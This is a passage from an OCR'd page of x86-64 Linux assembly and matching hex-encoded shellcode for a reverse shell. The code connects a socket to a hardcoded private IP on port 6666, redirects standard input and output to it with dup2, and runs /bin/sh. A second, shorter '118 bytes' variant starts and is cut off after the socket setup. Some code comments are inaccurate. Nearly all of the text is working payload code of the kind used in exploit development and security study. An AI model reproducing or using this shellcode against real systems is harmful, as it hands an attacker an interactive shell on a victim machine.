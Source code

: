 ```
    add dx, 0x10                ; add 0x10 to rdx
    xor rax, rax    
    add ax, 0x2a
    syscall                     ; call connect(rdi, rsi, rdx)

    xor rsi, rsi                ; zero out rsi

    dup:
    xor rax, rax
    add ax, 0x21                ; move the syscall for dup2 into rax
    mov rdi, r12                ; move the FD for the socket into rdi
    syscall                     ; call dup2(rdi, rsi)

    cmp rsi, 0x2                ; check to see if we are still under 2
    inc rsi                     ; inc rsi
    jbe dup                     ; jmp if less than 2

    ;sub r8, 0x1F                ; setup the exec syscall at 0x3b
    xor rax, rax    
    add ax, 0x3b                 ; move the syscall into rax

    ;exec
    xor rdx, rdx				 ; zero out rdx
    mov qword rbx, '//bin/sh' 	 ; '/bin/sh' in hex
    shr rbx,0x8                  ; shift right to create the null terminator
    push rbx

    mov rdi, rsp
    
    push rdx
    push rdi             		; move the command from the stack to rdi
    mov rsi, rsp                ; zero out rsi
    syscall                     ; call exec(rdi, rsi, 0)
```

```
\x48\x31\xd2\x48\x89\xd6\x48\xff\xc6\x48\x89\xf7\x48\xff\xc7\x66\x83\xc0\x29\x0f\x05\x49\x89\xc4\x48\x83\xec\x10\xc7\x44\x24\x04\xc0\xa8\x9f\x86\x66\xc7\x44\x24\x02\x1a\x0a\x66\xc7\x04\x24\x02\x00\x48\x89\xc7\x48\x89\xe6\x66\x83\xc2\x10\x48\x31\xc0\x66\x83\xc0\x2a\x0f\x05\x48\x31\xf6\x48\x31\xc0\x66\x83\xc0\x21\x4c\x89\xe7\x0f\x05\x48\x83\xfe\x02\x48\xff\xc6\x76\xeb\x48\x31\xc0\x66\x83\xc0\x3b\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05
```

#### 2.改118bytes

```
global _start
section .text
_start:

	xor    rax,rax
	xor    rdi,rdi
	xor    rsi,rsi
	xor    rdx,rdx
	xor    r8,r8
	push   0x2
	pop    rdi
	push   0x1
 	pop    rsi
	push   0x6
	pop    rdx
 	push   0x29
	pop    rax
```